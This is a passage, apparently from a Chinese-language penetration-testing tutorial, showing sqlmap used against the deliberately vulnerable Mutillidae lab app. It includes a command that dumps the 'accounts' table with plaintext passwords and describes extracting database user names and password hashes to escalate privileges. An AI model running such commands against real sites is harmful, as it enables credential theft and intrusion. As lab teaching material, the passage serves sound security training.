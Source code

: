 1.  表格 accounts 看起来包含我们需要的信息。让我们导出它的内容：

```
sqlmap -u "http://192.168.56.11/mutillidae/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" -p username -D nowasp -T accounts --dump
```

我们现在得到了完整的用户表，可以看到在这种情况下密码没有加密，因此我们可以直接使用它们：

![](img/4d94d71a-f2b3-4807-8628-2142eef2f984.png)

1.  SQLMap 还可以用于提升数据库和操作系统的权限。例如，如果数据库用户是管理员（如这里的情况），我们可以使用`--users`和`--passwords`选项提取所有数据库用户的名称和密码哈希值，如下所示的屏幕截图所示：

![](img/1e669776-3799-40b2-8442-bb2176bba0af.png)

通常，这些也是操作系统用户，允许我们提升权限至操作系统或其他网络主机。
